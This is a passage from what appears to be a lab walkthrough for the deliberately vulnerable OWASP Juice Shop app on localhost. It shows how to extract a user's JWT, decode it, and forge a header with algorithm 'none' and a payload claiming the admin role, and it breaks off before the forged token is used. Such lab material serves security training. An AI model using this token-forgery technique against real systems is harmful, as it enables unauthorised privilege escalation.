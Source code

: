 ````

---

## 📜 Step-by-Step Execution

### 🔹 1. Log In as a Normal User

1. Navigate to `http://localhost:3000`
2. Register and log in using normal credentials (e.g. `user@juice-sh.op`)
3. Open browser DevTools → `Application → LocalStorage`
4. Copy the JWT token from the `token` key

---

### 🔹 2. Decode JWT and Analyze

Paste the token into [https://jwt.io](https://jwt.io):

- View the header:
  ```json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
````

* View the payload:

  ```json
  {
    "email": "user@juice-sh.op",
    "role": "customer"
  }
  ```

---

### 🔹 3. Modify Algorithm to "none" and Forge Payload

#### 🔸 Header:

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

#### 🔸 Payload:

```json
{
  "email": "admin@juice-sh.op",
  "role": "admin"
}
```
